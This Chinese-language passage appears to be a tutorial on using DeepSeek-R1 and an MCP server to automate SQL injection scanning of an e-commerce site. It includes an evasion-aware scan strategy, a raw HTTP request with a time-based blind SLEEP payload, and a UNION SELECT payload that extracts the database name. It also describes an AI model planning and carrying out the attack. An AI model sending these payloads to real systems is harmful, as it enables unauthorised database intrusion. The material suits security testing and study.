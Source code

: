     print(f"耗时: {report['scan_time']}秒")  
  
    print(f"请求数: {report['requests_sent']}")  
  
    print(f"误报过滤率: {report['false_positive_filter_rate']*100}%")  
  
  
**攻击链解析：**  
1. **智能策略生成**  
DeepSeek-R1分析目标网站结构，生成定制化扫描策略：  
  
{  
  
  "scan_type": "time_based_blind",  
  
  "test_points": ["login.php", "search.php", "product/:id"],  
  
  "db_detection": ["MySQL", "PostgreSQL"],  
  
  "evasion_techniques": ["comment_obfuscation", "case_switching"]  
  
}  
  
1. **MCP服务器执行扫描**  
分布式节点发起精准测试：  
  
POST /search.php HTTP/1.1  
  
Host: mall.xxxx.com  
  
Content-Type: application/x-www-form-urlencoded  
  
X-MCP-Agent: DS-SQLi-001  
  
  
keyword=electronics' AND (SELECT 1 FROM (SELECT SLEEP(5))a)-- &deepseek=1  
  
1. **多维度漏洞验证**  
  
1. 时间延迟分析（>5秒响应）  
  
1. 错误消息模式识别  
  
1. 布尔逻辑验证  
  
1. 数据差异对比  
  
1. **智能POC生成**  
根据漏洞特征动态生成验证脚本：  
  
' UNION SELECT   
  
     NULL,   
  
     CONCAT('DB_NAME:', database()),   
  
     NULL,   
  
     NULL   
  
--   
  
**真实案例输出：**  
  
[!] 发现 3 个SQL注入漏洞  
  